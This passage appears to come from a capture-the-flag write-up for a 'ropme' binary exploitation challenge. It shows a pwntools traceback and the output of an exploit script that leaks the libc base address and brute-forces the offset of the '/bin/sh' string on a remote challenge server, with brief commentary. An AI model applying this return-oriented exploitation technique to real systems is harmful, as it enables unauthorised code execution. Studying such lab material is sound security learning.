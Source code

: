 ```bash
  File "/home/kali/Downloads/remote_exploit.py", line 55, in exploit
    print('Enum', p.recvline())
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 490, in recvline
    return self.recvuntil(self.newline, drop = not keepends, timeout = timeout)
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/home/kali/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 58, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 159.65.54.14 port 30989
```

%s%s%s%s%s%s, heh? Therefore, the main reason for offset from the tool didn't work because the system can not execute the string on provided address. Then, I just rewrite my exploit to brute force the offset and found /bin/sh string!

```bash
python3 remote_exploit.py remote
[+] Opening connection to 159.65.54.14 on port 30989: Done
[*] '/home/kali/Downloads/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b"ROP me outside, how 'about dah?\n"
b'7f73bbdae690'
[BASE] libc: 0x00007f73bbd3f000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'\n' 1625423
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7fced3fbe690'
[BASE] libc: 0x00007fced3f4f000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7f45dff5d690'
[BASE] libc: 0x00007f45dfeee000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7ff5791fa690'
[BASE] libc: 0x00007ff57918b000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7f74d3aaf690'
[BASE] libc: 0x00007f74d3a40000
b"ROP me outside, how 'about dah?\n"
```

[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367